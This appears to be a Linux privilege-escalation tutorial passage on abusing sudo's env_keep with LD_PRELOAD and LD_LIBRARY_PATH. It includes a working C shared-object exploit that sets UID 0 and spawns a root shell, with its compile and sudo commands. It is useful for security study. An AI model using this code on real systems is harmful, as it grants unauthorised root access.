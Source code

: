 #### LD_PRELOAD
**LD_PRELOAD** is an environment variable which can be set to the path of a shared object (.so) file. When set, the shared object will be loaded before any others. By creating a custom shared object and creating an init() function, we can execute code as soon as the object is loaded.

**LD_PRELOAD** will not work if the real user ID is different from the effective ID. **sudo** must be configured to preserve the LD_PRELOAD environment variable using the **env_keep** option.

```bash
sudo -l
Matching Defaults entries for user on this host:
    env_reset, env_keep+=LD_PRELOAD, env_keep+=LD_LIBRARY_PATH

User user may run the following commands on this host:
    (root) NOPASSWD: /usr/bin/find

```
Note that the env_keep option inlcudes the LD_PRELOAD environment variable

Create a file (preload.c) with the following conents:
```C
/*
 Compile:
 gcc -fPIC -shared -nostartfiles -o /tmp/preload.so preload.c
*/

#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>

void _init() {
        unsetenv("LD_PRELOAD");
        setresuid(0,0,0);
        system("/bin/bash -p");
}
```

Run any allowed program using **sudo**, while setting the LD_PRELOAD environment variable to the full path of the preload.so file:
```bash
sudo LD_PRELOAD=/tmp/preload.so apache2
```

#### LD_LIBRARY_PATH
LD_LIBRARY_PATH environment variable contains a set of directories where shared libraries are search for first.
By creating a shared library with the same name as one used by a program, and setting LD_LIBRARY_PATH to its parent directory, the program will load our shared library instead.
The *ldd* command can be used to print the shared libraries used by a program:
```bash
ldd /usr/sbin/apache2
    linux-vdso.so.1 =>  (0x00007fff5c7ff000)
    libpcre.so.3 => /lib/x86_64-linux-gnu/libpcre.so.3 (0x00007faa0dc66000)
    libaprutil-1.so.0 => /usr/lib/libaprutil-1.so.0 (0x00007faa0da42000)
    libapr-1.so.0 => /usr/lib/libapr-1.so.0 (0x00007faa0d808000)
    libpthread.so.0 => /lib/libpthread.so.0 (0x00007faa0d5ec000)
    libc.so.6 => /lib/libc.so.6 (0x00007faa0d280000)
    libuuid.so.1 => /lib/libuuid.so.1 (0x00007faa0d07b000)
    librt.so.1 => /lib/librt.so.1 (0x00007faa0ce73000)
    libcrypt.so.1 => /lib/libcrypt.so.1 (0x00007faa0cc3c000)
    libdl.so.2 => /lib/libdl.so.2 (0x00007faa0ca37000)
    libexpat.so.1 => /usr/lib/libexpat.so.1 (0x00007faa0c80f000)
    /lib64/ld-linux-x86-64.so.2 (0x00007faa0e123000)
```
